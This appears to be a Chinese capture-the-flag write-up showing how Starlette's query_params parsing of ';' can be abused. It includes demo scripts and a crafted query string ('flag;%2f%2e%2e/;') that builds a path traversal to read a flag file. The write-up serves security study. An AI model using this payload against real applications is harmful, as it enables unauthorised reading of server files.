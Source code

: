 demo：

```python
from starlette.testclient import TestClient
from starlette.requests import Request
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import PlainTextResponse

param_value = 'a;b;c'
url = f'/test?param={param_value}'

async def test_route(request: Request):
    param = request.query_params['param']  
    print(param)
    print(request.query_params.keys())
    return PlainTextResponse(param)

app = Starlette(debug=True, routes=[Route('/test', test_route)])

client = TestClient(app)

response = client.request(url=url, method='GET')
```

![image-20220403204532488](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5e215ecee2a6be7d5c6cc601d1931d7a0b8abebb.png)

这里要利用query\_params的错误解析，跟php的parse\_url那个函数差不多，当value以`;`分割后，`query_params`会截取`;`前半部分，而`query_params.keys()`会将`key`和`a;`后面的`b`,`c`当作key。

题目关键代码：

![image-20220403202531947](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-133b232ecc290b2dd6dfde8f95e56923d1989bf1.png)

query不能有`&和.`

重点在下面，如果控制了path就能读取flag，只要控制request.query\_params.keys()和filename就行了，我们根据最开始那个demo简单改改构造一下

```python
from starlette.testclient import TestClient
from starlette.requests import Request
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import PlainTextResponse

url = f'/test?dc61228a0a3c3709e3cf12165e0cc4ef=flag;%2f%2e%2e/;'

async def test_route(request: Request):
    clientId = 'dc61228a0a3c3709e3cf12165e0cc4ef'
    print(request.url.query)
    print(request.client.host)
    print(request.query_params.keys())
    print(request.query_params)
    filename = request.query_params[clientId]
    print(filename)
    path = './memo/' + "".join(request.query_params.keys()) + '/'+ filename
    print(path)
    return PlainTextResponse(request.url.query)

app = Starlette(debug=True, routes=[Route('/test', test_route)])

client = TestClient(app)

response = client.request(url=url, method='GET')
```
